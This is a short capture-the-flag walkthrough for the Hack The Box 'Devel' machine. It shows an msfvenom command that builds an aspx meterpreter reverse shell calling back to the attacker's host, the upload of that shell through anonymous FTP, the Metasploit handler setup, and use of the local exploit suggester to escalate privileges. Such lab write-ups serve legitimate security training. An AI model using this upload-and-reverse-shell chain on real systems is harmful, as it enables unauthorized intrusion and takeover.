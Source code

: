```yaml
---
layout: post
title: Devel walktrough
subtitle: HTB MACHINE
tags: [HTB]
---
```

Hello guys it's Shin today I'm going to guide you on how to root Devel this is one of the easiest windows machine in Hack The Box. In this case I might be using ftp to upload a shell that is made from msf, and from there I will be scanning for any known exploits for the machine so let's get started.
# Recon 
## nmap
``` 
Nmap scan report for devel.htb (10.10.10.5)
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
In this case we have 2 ports open which is `ftp` and `http` and I noticed that in ftp we can login as Anonymous.

# FTP-Port 21
There aren't that much to enumerate other than that your directory that you are in is the web directory.
# HTTP-Port 80
It's just the default page of IIS7:
![](/img/devel-writeup/screenshot1.png)

I tried doing directory bruteforcing using gobuster but it didn't give me much info that could help me root this machine.

# Foothold
I did some research about IIS7 and found out that IIS7 uses aspx so in this case I'm making a shell through msfvenom as aspx as a extension:
``` 
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.5 lport=1337 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2790 bytes
Saved as: shell.aspx
```
Now I'm going to put it in the machine using ftp:
```
ftp> put shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2826 bytes sent in 0.000171 seconds (15.8 Mbytes/s)
```
Now time to execute our shell through a web browser as shown below in the image: 
![](/img/devel-writeup/screenshot2.png)

And run our msf handler:
```
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) set lhost tun0
msf5 exploit(multi/handler) set lport 1337
msf5 exploit(multi/handler) run
```
Then I run "Multi recon exploit suggester" It's a kind of msfconsole module that tries to gather information about the machine and suggest you exploits.

![](/img/devel-writeup/screensho4.png)
```
background 
use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set session 2
msf5 post(multi/recon/local_exploit_suggester) > run
```
![](/img/devel-writeup/screenshot3.png)

Yikes! That's a lot of exploits to try so I tried the first one  but it didn't work for me so I used the 2nd and it WORKED GREAT!
## BAM!

![](/img/devel-writeup/screenshot5.png)

Now it's time to grab root!

![](/img/devel-writeup/screenshot7.png)

<center>Wow Magic!</center>

<center><img src="/img/devel-writeup/joven.gif"/></center>




